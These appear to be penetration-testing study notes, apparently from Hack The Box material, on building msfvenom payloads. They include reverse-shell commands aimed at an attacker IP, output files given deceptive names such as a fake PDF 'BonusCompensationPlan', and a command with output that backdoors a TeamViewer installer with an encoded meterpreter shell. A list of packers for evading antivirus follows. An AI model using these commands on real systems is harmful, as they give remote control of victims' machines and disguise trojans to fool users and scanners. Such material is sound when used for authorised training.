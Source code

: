 Linux stageless Example:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

![[Pasted image 20240602200317.png]]

Windows Stageless Example
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

Embed Payload into Existing File:

-x, --template Specify a custom executable file to use as a template
-k, --keep reserve the --template behaviour and inject the payload as a new thread

```shell-session
NivaLada@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/Desktop/TeamViewer_Setup.exe
```

Packers

The term Packer refers to the result of an executable compression process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

A list of popular packer software:
		
UPX packer 	The Enigma Protector 	MPRESS
Alternate EXE Packer 	ExeStealth 	Morphine
MEW 	Themida 	

If we want to learn more about packers, please check out the PolyPack project.